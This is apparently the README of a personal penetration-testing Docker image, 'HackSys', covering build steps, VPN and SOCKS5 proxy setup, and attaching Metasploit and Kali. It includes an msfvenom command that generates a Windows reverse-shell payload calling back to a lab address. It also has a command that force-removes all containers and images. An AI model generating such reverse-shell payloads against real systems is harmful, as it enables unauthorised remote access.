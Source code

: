 # HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* 3.56GB when built
* Zsh
* Lightweight with several security tools installed
* Development tools installed: Python, Go
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)

## Building

First update your images. Feel free to omit metasploit and/or kali if not desired:

```
docker pull alpine
docker pull metasploitframework/metasploit-framework
docker pull kalilinux/kali-rolling
```

Then build:

```
docker build -t antfie/haksys .
```

## Running 

### VPN

Replace `antfie.ovpn` with your openVPN configuration file and run the main VPN container with this:

```
docker run -it --rm -v $PWD/antfie.ovpn:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/haksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint ssh-proxy antfie/haksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/haksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker pull kalilinux/kali-rolling
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```
